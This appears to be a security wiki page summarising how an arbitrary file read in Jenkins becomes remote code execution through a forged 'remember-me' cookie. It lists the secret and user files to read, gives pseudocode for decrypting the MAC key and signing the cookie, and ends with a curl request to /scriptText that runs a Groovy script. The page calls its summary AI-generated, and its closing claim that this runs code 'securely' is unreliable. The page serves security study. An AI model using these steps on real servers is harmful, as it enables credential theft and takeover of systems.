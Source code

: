 # Jenkins Arbitrary File Read to RCE via "Remember Me"

In this blog post is possible to find a great way to transform a Local File Inclusion vulnerability in Jenkins into RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

This is an AI created summary of the part of the post were the creaft of an arbitrary cookie is abused to get RCE abusing a local file read until I have time to create a summary on my own:

### Attack Prerequisites

- **Feature Requirement:** "Remember me" must be enabled (default setting).
- **Access Levels:** Attacker needs Overall/Read permissions.
- **Secret Access:** Ability to read both binary and textual content from key files.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- Access user configuration and secrets from `$JENKINS_HOME/users/*.xml` for each user to gather:
  - **Username**
  - **User seed**
  - **Timestamp**
  - **Password hash**

**Secret Key Extraction**

- Extract cryptographic keys used for signing the cookie:
  - **Secret Key:** `$JENKINS_HOME/secret.key`
  - **Master Key:** `$JENKINS_HOME/secrets/master.key`
  - **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Calculate Token Expiry Time:**

  ```javascript
  tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Adds one hour to current time
  ```

- **Concatenate Data for Token:**

  ```javascript
  token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
  ```

**MAC Key Decryption**

- **Decrypt MAC Key File:**

  ```javascript
  key = toAes128Key(masterKey)  // Convert master key to AES128 key format
  decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
  if not decrypted.hasSuffix("::::MAGIC::::")
      return ERROR;
  macKey = decrypted.withoutSuffix("::::MAGIC::::")
  ```

**Signature Computation**

- **Compute HMAC SHA256:**

  ```javascript
  mac = HmacSHA256(token, macKey) // Compute HMAC using the token and MAC key
  tokenSignature = bytesToHexString(mac) // Convert the MAC to a hexadecimal string
  ```

**Cookie Encoding**

- **Generate Final Cookie:**

  ```javascript
  cookie = base64.encode(
    username + ":" + tokenExpiryTime + ":" + tokenSignature
  ) // Base64 encode the cookie data
  ```

#### Step 3: Code Execution

**Session Authentication**

- **Fetch CSRF and Session Tokens:**
  - Make a request to `/crumbIssuer/api/json` to obtain `Jenkins-Crumb`.
  - Capture `JSESSIONID` from the response, which will be used in conjunction with the remember-me cookie.

**Command Execution Request**

- **Send a POST Request with Groovy Script:**

  ```bash
  curl -X POST "$JENKINS_URL/scriptText" \
  --cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
  --header "Jenkins-Crumb: $CRUMB" \
  --header "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "script=$SCRIPT"
  ```

  - Groovy script can be used to execute system-level commands or other operations within the Jenkins environment.

The example curl command provided demonstrates how to make a request to Jenkins with the necessary headers and cookies to execute arbitrary code securely.

